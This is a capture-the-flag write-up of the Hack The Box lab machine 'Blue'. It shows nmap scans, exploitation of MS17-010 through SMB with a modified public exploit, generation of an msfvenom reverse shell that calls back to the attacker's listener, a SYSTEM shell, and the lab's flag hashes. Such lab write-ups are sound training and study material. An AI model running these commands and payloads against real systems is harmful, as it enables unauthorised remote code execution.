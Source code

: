 ```yaml
---

layout: post
title: Blue
tags: [OSCP, writeup, Windows, Shellcode, SMB]
description: "Blue write-up"
---
```


![Blue logo](/assets/imgs/blue/blue.png)

### This is an easy windows box

## Tools used

------

- msfvenom
- nc
- nmap
- python
- searchsploit

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA blue 10.10.10.40 -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m23s, deviation: 34m37s, median: 6m34s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-18T08:55:19+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-18T07:55:17
|_  start_date: 2020-07-18T07:52:58
```

Here’s what nmap teaches us :

- port 139 (NETBIOS)
- port 445 (SMB)
- Windows 7 Professional 6.1

So we have a windows 7 with SMB ports open. Let's check with nmap if we have some known exploit with SMB.

```
nmap --script "smb-vuln*" -p 139,445 10.10.10.40 -v

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

Results :

- ms17-010 : RCE

Nice, we have a RCE, let's search for exploit code.

### Searchsploit

![Searchsploit ms17-010](/assets/imgs/blue/searchsploit_ms17-010.PNG)

There's a Metasploit module, but let's not use it. I have to do it manually !

## Exploit

------

I'm going to use this exploit "windows/remote/42315.py", download it, like so :

```bash
searchsploit -m windows/remote/42315.py
```

Reading the code we need to modify it a little bit.

- Change the username/password
- Change the shellcode, so that the code use mine

Generate the reverse shell with msfvenom :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse_shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse_shell.exe
```

As username I'll use "guest" and no password.

Now modify the python code :

```python
USERNAME = 'guest'
PASSWORD = ''

[...]

smb_send_file(smbConn, "/home/liodeus/Downloads/hackthebox/blue/shellcode.exe", 'C', '/shellcode.exe')
service_exec(conn, r'cmd /c c:\\shellcode.exe')
```

Before executing the exploit, open a nc listener.

```bash
nc -lvp 1234
```

Then launch the exploit.

```python
python 42315.py 10.10.10.40
```

Go to the nc listener and voila !

```python
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.40: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We are root ! Go read the flags now !

## Flags

------

### User.txt

```python
C:\>dir /b/s user.txt
dir /b/s user.txt
C:\Users\haris\Desktop\user.txt

C:\>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
4c546aea7dbee75cbd71de245c8deea9
```

### Root.txt

```python
C:\>dir /b/s root.txt
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt

C:\>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ff548eb71e920ff6c08843ce9df4e717
```

